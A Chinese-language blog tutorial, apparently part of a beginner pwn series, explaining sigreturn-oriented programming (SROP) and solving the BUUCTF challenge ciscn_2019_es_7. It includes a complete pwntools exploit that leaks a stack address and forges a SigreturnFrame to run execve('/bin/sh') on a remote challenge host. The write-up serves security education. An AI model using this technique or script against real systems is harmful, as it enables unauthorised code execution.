



# pwn初学者的进阶（四）：SROP


SROP，听着似乎是一个非常高大上的ROP方式，再加上涉及到signal和内核等概念，很容易给人一种难以理解的第一印象。但看过[ctf-wiki](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/srop/)之后你会发现，原理非常简单易懂。

<!--more-->

## 基本原理

SROP与Unix系统的信号（signal）处理机制相关。关于Unix系统的信号处理、中断、用户态内核态等概念，忘了的话建议先去google一下。理解这些东西才能够更好地理解SROP的工作原理。

首先盗一张ctf-wiki上关于信号处理过程的流程图。


几个阶段分别发生了什么：

- ①：用户态进程接收到别的进程发送的信号signal，该进程被挂起，进入内核态
- ②：内核保存用户态进程的上下文，然后跳转到用户态的信号对应的信号处理程序，回到用户态。在这一阶段里，内核会构造一个位于用户态进程栈上的`Signal Frame`用于存放该进程的上下文，然后再压入返回地址`rt_sigreturn`。
- ③：用户态的信号处理程序执行完毕，pop返回地址`rt_sigreturn`，进程进入内核态，执行`sigreturn`系统调用。内核根据之前栈上的`Signal Frame`完成用户态进程上下文的恢复。
- ④：返回用户态，进程按照恢复的上下文继续执行。

SROP作用于第3阶段，也就是内核根据`Signal Frame`的内容恢复进程上下文的过程。

`Signal Frame`是一个已知的数据结构，而且其存在于用户态的栈上。内核在恢复上下文时并没有确保其内容没有被修改过。因此，如果我们能够在栈上构造`sigreturn`系统调用与`Signal Frame`结构体的话，就能够实现攻击的效果。

比如在栈上构造这么一个结构，就能够SROP获取shell。



## 例题

Buu上的[ciscn_2019_es_7](https://buuoj.cn/challenges#ciscn_2019_es_7)就是一个典型的例子。

程序允许`0x400-0x10`长度的栈溢出，并且提供了`mov rax 0x3b; ret`和`syscall`以及`pop rdi`/`pop rsi`的gadget，但是就是没有控制rdx的gadget。所以无法直接栈溢出ret2syscall。

再考虑到这么长的溢出长度，以及`mov rax 0x0f; ret`的gadget（0xf号系统调用就是sigreturn），所以应该想到SROP。



根据上面的例子，如果想要SROP执行`execve("/bin/sh", 0, 0)`的话，还需要知道字符串`"/bin/sh"`的地址。在这道题中，可以利用`sys_write`输出的栈地址来获取。

最终exp：

```python
from pwn import *

context(log_level = 'debug')
context(os="linux", arch="amd64")
if args.LOCAL:
    p = process('./ciscn_2019_es_7')
else:
    p = remote('node4.buuoj.cn', 26270)

syscall_ret = 0x400517
mov_rax_0x3b_ret = 0x4004e2 # execve
mov_rax_0x0f_ret = 0x4004da # sigreturn
main_addr = 0x40051d
call_vuln = 0x400531
vuln_addr = 0x4004f1

# first time
pld1 = b'/bin/sh\x00'
pld1 = pld1.ljust(0x10, b'a')
pld1 += p64(vuln_addr)
p.send(pld1)

stack_addr = u64(p.recvuntil(b'\x7f')[-6:]+b'\x00'*2)
p.success("stack_addr: {}".format(hex(stack_addr)))

# second time
pld2 = b'/bin/sh\x00'
pld2 = pld2.ljust(0x10, b'a')
pld2 += p64(mov_rax_0x0f_ret)
pld2 += p64(syscall_ret)

sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr - 0x118
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
# print(sigframe)

pld2 += bytes(sigframe)
p.send(pld2)
p.interactive()
```

执行截图



## 思考

如果`Signal Frame`完全可控的话，既然可以通过控制`rax`和`rip`来执行系统调用，那么如果程序中存在什么后门函数的话，是不是可以通过构造`rdi`/`rsi`和`rip`等寄存器，去执行这些函数呢？还是说内核态会限制一些函数的运行？

## 参考链接：

- [https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/srop/](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/srop/)
- [https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)
- [提出SROP的论文：《Framing Signals—A Return to Portable Shellcode》](https://www.cs.vu.nl/~herbertb/papers/srop_sp14.pdf)


